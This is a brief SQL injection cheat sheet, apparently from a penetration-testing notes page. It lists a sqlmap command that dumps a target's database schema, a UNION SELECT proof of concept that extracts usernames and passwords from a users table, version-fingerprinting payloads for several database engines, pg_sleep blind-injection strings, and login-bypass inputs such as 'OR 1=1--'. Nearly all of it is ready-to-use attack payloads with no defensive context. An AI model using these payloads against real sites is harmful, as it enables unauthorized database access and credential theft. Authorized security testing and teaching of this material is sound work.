 <h1>SQL Injection</h1>

<p>-- o #</p>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version--</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version--</code></p>
<p><code>' UNION SELECT banner FROM v$version--</code></p>
<p><code>' UNION SELECT version FROM v$instance--</code></p>
<p><code>' UNION SELECT version()--</code></p>

<h2>Blind SQL Injection:</h2>
<p><code>';SELECT PG_SLEEP(5)--</code></p>
<p><code>'||pg_sleep(10)--</code></p>

Input login, in name, password try:
name'--
pass'--

Always try with:
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
